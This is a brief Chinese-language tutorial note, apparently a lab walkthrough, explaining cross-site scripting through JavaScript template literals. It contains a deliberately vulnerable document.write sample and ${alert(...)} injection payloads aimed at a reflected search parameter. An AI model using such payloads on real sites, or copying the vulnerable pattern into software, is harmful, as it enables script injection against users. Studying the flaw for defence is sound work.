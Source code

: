 ### 文本环境中的 js 代码

JavaScript 模板字面量（Template Literals）使用反引号定义，支持通过 `${}` 嵌入表达式：

```
`文本内容 ${表达式} 更多文本`
```

- **表达式动态执行**：`${}` 内的代码会被实时执行
- **结果自动拼接**：表达式返回值自动转换为字符串并插入模板
- **无需闭合**：攻击者无需闭合反引号即可执行代码

```
// 漏洞代码示例
const userInput = `controllable data here`; // 用户可控数据
document.write(`<div>${userInput}</div>`);

${alert(document.domain)}
document.write(`<div>${alert(document.domain)}</div>`);
```

### 实验

访问：GET /?search=nihao

```
<script>
var message = `0 search results for 'nihao'`;
document.getElementById('searchMessage').innerText = message;
</script>
```

```
${alert(1)}
```

![image-20250531174722456](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250531174722456.png)